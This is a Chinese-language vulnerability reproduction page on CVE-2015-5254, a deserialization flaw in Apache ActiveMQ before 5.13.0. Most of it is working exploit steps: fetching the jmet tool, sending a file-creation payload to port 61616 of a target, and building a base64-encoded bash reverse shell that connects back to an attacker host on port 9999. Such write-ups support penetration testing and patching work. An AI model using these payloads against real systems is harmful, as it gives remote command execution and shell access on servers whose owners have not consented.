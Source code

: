 ```yaml
---
Title: Apache ActiveMQ 反序列化漏洞 CVE-2015-5254
---
```


# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache ActiveMQ 5.13.0之前5.x版本</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="首先下载 jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar" description="" showIcon>
</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成`/tmp/vuln`的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 `http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event `可以看到多了一条消息队列

![image-20220308145025293](../../../.vuepress/public/img/image-20220308145025293.png)

点击这个信息触发文件创建

![image-20220308145111363](../../../.vuepress/public/img/image-20220308145111363.png)

成功执行命令创建文件，也可以创建一个`反弹shell`的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

同样点击消息队列会触发命令执行

![image-20220308145310216](../../../.vuepress/public/img/image-20220308145310216.png)
